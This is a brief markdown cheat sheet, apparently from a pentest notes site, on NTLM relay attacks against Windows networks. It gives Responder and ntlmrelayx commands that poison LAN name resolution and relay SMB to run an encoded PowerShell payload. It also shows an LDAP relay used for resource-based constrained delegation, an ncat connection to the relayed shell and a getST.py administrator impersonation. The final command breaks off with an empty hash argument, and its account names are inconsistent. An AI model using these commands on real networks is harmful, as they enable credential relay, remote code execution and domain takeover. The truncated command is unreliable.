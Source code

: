 ```yaml
---
title: "Ntlm Relay"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


- Get a code execution , after relaying smb :
```sh
#need to admin privileges
sudo ntlmrelayx --no-http-server -smb2support -t 192.168.50.212
-c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

- a appliquer en lan 
```sh 
Responder.py -I enp4s0 -wdFb
ntlmrelayx -tf target.txt -smb2support -i
```

- RBCD : 
```sh
Responder.py -I enp4s0 -wdFb
ntlmrelayx.py -t ldap://10.2.10.11 -i -6 -wh wpad-lab
ncat -n 127.0.0.1 11000
```
`Disable SMB et HTTP` 

Assuming that our previously compromised computer account is named LA-SRV01-2019, we issue the following command to grant that account RBCD privileges over the relayed LA-WIN11-22H1-1$ account:

```sh
# set_rbcd LA-WIN11-22H2-1$ LA-SRV01-2019$
getST.py -impersonate administrator -spn 'WSMAN/LA-WIN11-22H2-1.babysteps.domain' -dc-ip 10.2.10.11 -hashes 
```

